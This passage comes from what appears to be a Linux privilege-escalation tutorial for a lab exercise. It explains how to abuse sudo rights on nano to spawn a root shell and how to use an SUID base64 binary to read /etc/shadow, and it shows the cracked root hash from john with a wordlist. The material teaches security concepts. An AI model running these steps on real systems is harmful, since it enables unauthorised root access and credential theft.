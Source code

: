 **Word-by-Word Explanation**:
- `sudo -l`:
  - `sudo`: Runs commands as another user (usually root).
  - `-l`: Lists commands the user can run with `sudo`.
  - *Purpose*: Shows that user `karen` can run `nano` as root without a password (`NOPASSWD`).
- `sudo nano`:
  - `sudo`: Executes the command as root.
  - `nano`: A text editor.
  - *Purpose*: Opens `nano` with root privileges, allowing access to its features.
- `Ctrl+R, Ctrl+X`:
  - `Ctrl+R`: In `nano`, opens the “read file” prompt.
  - `Ctrl+X`: Switches to the “execute command” prompt.
  - *Purpose*: Allows running a shell command from within `nano`.
- `reset; sh 1>&0 2>&0`:
  - `reset`: Clears the terminal (optional, improves shell appearance).
  - `;`: Separates commands.
  - `sh`: Starts a shell.
  - `1>&0`: Redirects stdout to stdin.
  - `2>&0`: Redirects stderr to stdin.
  - *Purpose*: Spawns a root shell by exploiting `nano`’s command execution feature.
- `whoami`:
  - *Purpose*: Confirms root access.
- `cat /etc/shadow`:
  - `cat`: Displays file contents.
  - `/etc/shadow`: Stores password hashes, readable only by root.
  - *Purpose*: Shows root-level access by reading a restricted file.

**Note**: Check [GTFOBins](https://gtfobins.github.io/) for other exploitable `sudo` commands (e.g., `find`, `less`).

---

### 3. SUID/SGID Binaries

**Description**: SUID (Set User ID) and SGID (Set Group ID) binaries run with the permissions of their owner or group (often root). Misconfigured SUID/SGID binaries can be exploited to gain higher privileges.

**Example**:
```bash
# Find SUID binaries
find / -perm -u=s -type f 2>/dev/null
# Output: /usr/bin/base64

# Exploit base64 to read /etc/shadow
/usr/bin/base64 /etc/shadow | base64 -d
# Output: root:$6$...:0:99999:7:::
# Crack hash with john
echo "root:$6$..." > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# Output: password123 (root)
```
